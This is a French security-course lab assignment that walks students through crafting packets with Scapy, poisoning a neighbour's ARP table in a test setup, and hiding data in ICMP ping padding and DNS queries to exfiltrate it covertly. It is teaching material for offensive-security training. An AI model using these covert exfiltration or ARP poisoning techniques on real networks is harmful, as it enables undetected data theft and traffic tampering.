

# TP4 SECU : Exfiltration

> *Big blabla.*

➜ **Le TP3 s'apparentait à un audit**, plutôt penché sur la sécurité : on fait un état des lieux de ce qui est en place, sans tenter de péter quoique ce soit.

Un audit junior, sans probablement de vraie méthode (à vous de me faire mentir j'ai pas encore reçu/lu vos rapports à l'heure l'écriture de ces lignes) mais ça reste une démarche d'audit. Prise d'informations.

Dans un cas réel, **c'est une mission qui peut exister**, telle que vous l'avez faite ici. Pour de la prise d'informations il peut aussi arriver que le point d'entrée ne soit pas physique comme au TP3, mais **plutôt une connexion à distance**.

➜ Si vous aviez eu le contrôle à distance d'une machine qui se trouve dans le réseau, peu importe le moyen, vous auriez aussi pu essayer de récolter des informations sur les autres membres du réseau.

Dans un tel cadre, après avoir récolté les informations, il sera nécessaire des les **exfiltrer**. C'est à dire les récupérer sur un device que vous contrôlez (votre PC, un serveur en ligne, peu importe).

➜ **Pour faire clair : comment transmettre votre rapport d'une machine qui est dans le réseau, vers une machine qui est en dehors du réseau, discrètement.**

S'il y a des logs réseau quelque part. Vos `nmap` sont probablement cramés. Si dans les logs on voit que du même endroit part  une connexion SSH random vers une IP publique random, ou une connexion HTTP sur evil.corp.org c'est + que suspect, ça devient évident que vous exfiltrez des données.

➜ **C'est le TP4 exfiltration : on va cacher des données dans du trafic qui paraît légitime.**

> *Pour que ce TP ait un sens, on exclut l'accès physique où tu repars juste avec les données sur ton PC, comme vous avez fait.*

On va faire un TP qui est cool à mon sens pour plusieurs raisons :

- il peut être une suite à peu près cohérente au TP précédent
- en sécu, il faut posséder des skills multiples et variés
  - dans ce TP, vous allez dév
- en sécu, il faut bien BIEN comprendre comment marche vraiment les p'tits outils qu'on utilise parfois quotidiennement sans trop se poser de questions...
  - dans ce TP on va, entre autres, disséquer et crafter des `ping` par exemple


# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [0. Setup](#0-setup)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# 0. Setup

**Pour ce TP ce sera du Python avec la librairie Scapy**, best couteau suisse du réseau. La syntaxe est cheloue, mais si vous posez votre crâne deux minutes, vous comprenez très vite qu'elle est super pratique et intuitive.

**On craft des trames réseau à la main avec Scapy.** Genre tu mets ce que tu veux en MAC src, MAC dst, IP src, IP dst, et BAM t'envoie. C'est yolow t'es libre.

A setup :

- environnement Python
- libraire [Scapy](https://scapy.readthedocs.io/en/latest/introduction.html) installée
- Wireshark limite toujours ouvert, pour voir concrètement votre caca Scapy partir sur le réseau

# I. Getting started Scapy

➜ **Déjà, [allez manger le cours sur Scapy](../../../cours/secu/scapy/README.md)** et testez vous-même tous les exemples donnés là-bas

🌞 **`ping.py`**

- un ping vers la passerelle du réseau de l'école
- vous devez craft la trame entièrement à la main et utiliser la méthode `srp()` pour envoyer votre ptite trame
- affiche dans le terminal le pong reçu

> Si le `ping` est bloqué vers la passerelle, go `ping` un autre machin dans le LAN.

🌞 **`tcp_cap.py`**

- fonction `sniff()`
- capture le premier TCP SYN ACK reçu
- affiche **exactement** la sortie suivante :

```bash
$ python tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : xxx.xxx.xxx.xxx
- Adresse IP dst : xxx.xxx.xxx.xxx
- Port TCP src : xxxx
- Port TCP dst : xxxx
```

🌞 **`dns_cap.py`**

- fonction `sniff()`
- capturer une requête DNS et sa réponse
  - une requête DNS pour connaître l'IP de `ynov.com`
- **afficher uniquement** l'adresse contenue dans la réponse
- utiliser une commande depuis votre terminal pour faire la requête DNS pendant que votre script `dns_cap.py` tourne
  - `nslookup` sous Windows
  - `dig` sous GNU/Linux

🌞 **`dns_lookup.py`**

- craftez une requête DNS à la main
- en entier encore là, toute la trame, vous devez utiliser la méthode `srp()`

# II. ARP Poisoning

BON VOUS ALLEZ PAS Y COUPER SI VOUS L'AVEZ JAMAIS FAIT.

**P'tit détour rapide sur un ARP Poisoning simple.** Pas question de MITM ici, juste injecter une fausse donnée dans la table ARP de quelqu'un.

🌞 **`arp_poisoning.py`**

- craftez une trame ARP qui empoisonne la table d'un voisin
  - je veux que, pour la victime, l'adresse IP `10.13.33.37` corresponde à la MAC `de:ad:be:ef:ca:fe`
- **testez avec des VMs uniquement, ou entre vous uniquement**
- prouvez avec une commande sur la machine victime que la fausse donnée a été injectée
- vous n'avez le droit qu'aux fonctions `srp()`, `sr()`, `send()`, `sendp()`

# II. Exfiltration ICMP

➜ **Ici, on va se servir de notre ami le ping pour exfiltrer des données.**

Si vous n'aviez pas noté jusqu'alors en faisant joujou à la partie I, chaque paquet ICMP (ping et pong) contiennent une section appelée "padding" de taille variable, généralement remplie de 0. C'est là, on envoie plein de 0 sur le réseau, kom sa, à chaque ping.

**C'est l'endroit idéal pour stocker des données meow.**

P'tit schéma d'un paquet ICMP [~~volé sur internet ici~~](https://www.freesoft.org/CIE/Course/Section3/7.htm) :



**On va littéralement envoyer des pings, mais le padding on va l'utiliser pour stocker des données.** Autrement dit, on va utiliser des pings pour envoyer de la data à quelqu'un.

Dans notre contexte : pour exfiltrer des données, on peut juste envoyer des ping enfet !

🌞 **`icmp_exf_send.py`**

- envoie un caractère passé en argument dans un ping
  - un seul caractère pour le moment
- l'IP destination est aussi passée en argument
- on doit pouvoir faire par exemple :

```bash
# envoie le caractère "j" caché dans un ping vers 10.1.1.1
$ python icmp_exfiltration_send_1.py 10.1.1.1 j
```

On peut récup les arguments passés au script comme ça :

```python
# La liste argv contient tous les arguments dans l'ordre
from sys import argv

print(f"Ceci est le premier argument : {argv[0]}.")
print(f"Ceci est le deuxième argument : {argv[1]}.")
```

🌞 **`icmp_exf_receive.py`**

- sniff le réseau
- affiche **UNIQUEMENT** le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
- si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner
- il attend (avec un filtre sur `sniff()` et des conditions dans la fonction qui traite le paquet) **uniquement** le ping qui contient les données exfiltrées, et les affiche

> Mettez vous dans un setup à deux PCs, ou avec une VM, truc du genre.

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues


